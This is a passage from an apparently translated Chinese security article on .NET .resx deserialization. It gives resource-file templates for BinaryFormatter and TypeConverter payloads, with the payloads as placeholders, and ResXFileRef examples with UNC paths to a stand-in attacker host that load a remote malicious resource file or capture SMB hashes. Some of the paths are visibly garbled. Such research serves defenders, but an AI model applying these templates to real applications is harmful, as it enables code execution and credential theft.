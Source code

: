然后如下所示，将生成的Payload（攻击载荷）用于资源文件当中

```
[Resource file default scheme and headers redacted]

&lt;data name="test1_BinaryFormatter" mimetype="application/x-microsoft.net.object.binary.base64"&gt;
&lt;value&gt;[BinaryFormatter payload goes here without the square brackets]&lt;/value&gt;
&lt;/data&gt;
```

**通过`TypeConverters`进行反序列化**

虽然资源文件在多数情况下会使用`TypeConverters`，但是那些受`CanConvertFrom`方法检查的兼容类型同样也很重要。攻击者能够通过查找合适的类文件，使用`ConvertFrom`方法来执行代码。关于这种攻击的更多信息，可以查看** Friday the 13th JSON Attacks [5] **白皮书

以下方案展示了，`TypeConverters`在作为`type`属性的`fully qualified assembly name`（完全限定集名）的资源文件里的用法[译者注：这段真的难译啊T T]
- 当`application / x-microsoft.net.object.bytearray.base64`在`mimetype`里时：
```
&lt;data name="test1" mimetype="application/x-microsoft.net.object.bytearray.base64" type="A Fully Qualified Assembly Name Here"&gt;&lt;value&gt;Base64 ByteArray Payload Here&lt;/value&gt;&lt;/data&gt;
```

它需要接受一个`CanConvertFrom`中`byte []`类型的类文件
- 当`mimetype`属性不可用、`type`属性不为`null`（空）且不包含`System.Byte []`类型和`mscorlib`字符串时：
```
&lt;data name="test1" type="A Fully Qualified Assembly Name Here"&gt;
&lt;value&gt;String Payload Here&lt;/value&gt;
&lt;/data&gt;
```

它需要接受一个`CanConvertFrom`中`String`类型的类文件
- 当能够包含使用了`System.Resources.ResXFileRef`类型的外部文件路径时：
```
&lt;data name="test1" type="System.Resources.ResXFileRef, System.Windows.Forms"&gt;
&lt;value&gt;UNC_PATH_HERE; A Fully Qualified Assembly Name Here&lt;/value&gt;
&lt;/data&gt;
```

在获取`fully qualified assembly name`（完全限定集名）时，它支持`String`，`Byte []`和`MemoryStream`类型，而这又可能会被滥用于加载 包含了恶意序列化对象 的另一个资源文件，于是便可用来绕过对初始资源文件的潜在限制条件。下面的数据标签就是一个例子：

```
&lt;data name="foobar" type="System.Resources.ResXFileRef"&gt;
 &lt;value&gt;
 \attacker.compayload.resx; System.Resources.ResXResourceSet, System.Windows.Forms, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
 &lt;/value&gt;
 &lt;/data&gt;
```

`ResXFileRef`类型还可以通过错误消息用作 文件枚举，也能通过 UNC路径 进行SMB哈希劫持。 比如：

```
&lt;data name="foobar" type="System.Resources.ResXFileRef, System.Windows.Forms"&gt;
 &lt;value&gt;\AttackerServertesttest;System.Byte[], mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089&lt;/value&gt;
 &lt;/data&gt;
```
